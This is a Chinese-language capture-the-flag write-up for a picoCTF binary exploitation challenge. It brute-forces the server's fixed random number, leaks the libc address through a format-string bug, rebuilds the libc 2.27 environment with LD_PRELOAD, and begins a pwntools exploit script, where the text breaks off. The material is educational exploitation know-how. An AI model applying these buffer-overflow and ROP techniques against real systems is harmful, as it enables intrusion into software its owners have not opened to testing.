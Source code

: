 1. **Brute Force Server Secret Number**
看了source code可以發現他和上一題幾乎一樣，上一題是要猜1-100的數字，而他會有固定的模式出現，所以可以直接用gdb跟他到底是哪些數字，但這一題的範圍明顯大很多(1-4096)，此時就要講到和上一題不一樣的地方，也就是第十行的==get_random== function中return的value是rand，他return的東西應該是一個固定的object而非經過運算的function(也就是==rand()==)，所以只要他沒有把靶機重開，運算的結果都會是一樣的，此時我們可以寫一個brute force script去try他用哪一個數字，以我的例子來說server的數字是`-3727`，而如果想知道local side的數字是多少，可以直接把原本的source code註解的部分拔掉，再make就會自己告訴你了
2. **Leak libc version**
接著就是開始try rop，可以看到61行有個明顯的bof，但我們應該先想辦法leak libc version，因為如果直接用vuln執行檔找ROP會少的可憐，所以要用libc，但是libc最後找的東西不見得會和他的版本一樣，這也是為甚麼不能更新glibc的原因，在stack中的相對位置不會一樣，會找的很痛苦而且做白工，leak libc的方法這邊是用fmt，雖然應該只有這個方法(在63行)，在print之前可以看一下stack的狀況，很明顯$esp+0x24c的地方出現`__libc_start_main`，利用[online database searching tool](https://libc.blukat.me/)可以知道server用甚麼版本
    ```bash
    0xffffc98c│+0x022c: 0x080495bb  →  <main+145> jmp 0x80495a8 <main+126>
    0xffffc990│+0x0230: 0x00000001
    0xffffc994│+0x0234: 0xffffca54  →  0xffffcc27
    0xffffc998│+0x0238: 0x000003e8
    0xffffc99c│+0x023c: 0x00000001
    0xffffc9a0│+0x0240: 0xffffc9c0  →  0x00000001
    0xffffc9a4│+0x0244: 0x00000000
    0xffffc9a8│+0x0248: 0x00000000
    0xffffc9ac│+0x024c: 0xf7deded5  →  <__libc_start_main+245> add esp, 0x10
    0xffffc9b0│+0x0250: 0xf7fbb000  →  0x001e7d6c
    0xffffc9b4│+0x0254: 0xf7fbb000  →  0x001e7d6c
    ```
    ![](https://hackmd.io/_uploads/SyZ2l94n3.png)
    而libc base address就是`0xf7d34fa1-0x018fa1=0xf7d1c000`
    :::info
    Note: 在x86版本中，fmt的顯示順序是從\$esp的地方開始，所以`__libc_start_main`就是在\$esp往後數==第147個位數==
    :::
3. **Change Execute Environment**
此時我們知道libc的版本是2.27，那就代表應該是18.04的版本，如果不想要費事裝VM或wsl就可以直接用@ccccc提供的腳本，讓這支程式跑在和server一樣的環境，==所以要把對應環境的loader和libc載下來==，用法如下:
    ```bash
    $ python {script path} {new env loader path} {original elf file}
    # e.g. python ./LD_PRELOAD.py ./ld-2.27.so ./vuln
    ```
    他會產生一個新的執行檔，名字是`V`，在pwntools寫的腳本也要改，用法如下
    ```python
    r = process('./V',env={"LD_PRELOAD" : "./libc-2.27.so"})
    ```
    此時我們跑的結果就換會和server端一樣
    ```python
    from pwn import *
    
    if args.REMOTE:
        r = remote("jupiter.challenges.picoctf.org", 18263)
        ans = -3727
    elif args.LOCAL:
        r = process("./V", env={"LD_PRELOAD" : "./libc-2.27.so"})
        # r = process('./vuln')
        # ans = -3615
        ans = -3727
